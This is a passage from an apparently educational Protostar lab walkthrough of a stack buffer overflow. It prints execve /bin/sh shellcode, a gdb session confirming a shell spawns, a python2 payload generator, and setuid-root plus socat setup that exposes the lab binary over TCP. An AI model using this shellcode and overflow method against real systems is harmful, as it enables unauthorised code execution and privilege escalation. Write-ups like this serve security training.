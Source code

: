 Final exploit.

```x86asm
c@ubuntu:~/Desktop/protostar$ hexdump -v exploit.bin 
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 8386 0804
```

Let's check if this exploit works properly or not by debugging.

```nasm
gdb-peda$ b * 0x0804842d
gdb-peda$ b * 0x08048386

gdb-peda$ r < exploit.bin

gdb-peda$ x/20wx $eax
0xffffd0e0:	0x6850c031	0x68732f6e	0x622f2f68	0x31e38969
0xffffd0f0:	0xb0d231c9	0x4180cd0b	0x41414141	0x41414141
0xffffd100:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd110:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x08048386

gdb-peda$ i r eip
eip            0x8048386	0x8048386 <deregister_tm_clones+38>

gdb-peda$ c
Continuing.
process 6220 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x804842d
```

As seen on the outpu of **x/20wx $eax** command in gdb, we have obtained our goal. 

My debugger has some issues, but **/bin/dash** was executed. Let's finish this off in **Final PoC** part of this walkthrough.


#### 2.3 Final PoC

```py
python2 -c 'import sys; sys.stdout.write("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A"*53 + "\x86\x83\x04\x08")' > exploit.bin
```

Privilege escalation set up.

```js
$ sudo chown root 5
$ sudo chmod u+s 5
$ ls -l 5
-rwsrwxr-x 1 root c 8264 Mar  1 04:57 5

$ socat -dd TCP4-LISTEN:"8080",fork,reuseaddr EXEC:"./5",pty,echo=0,raw
```
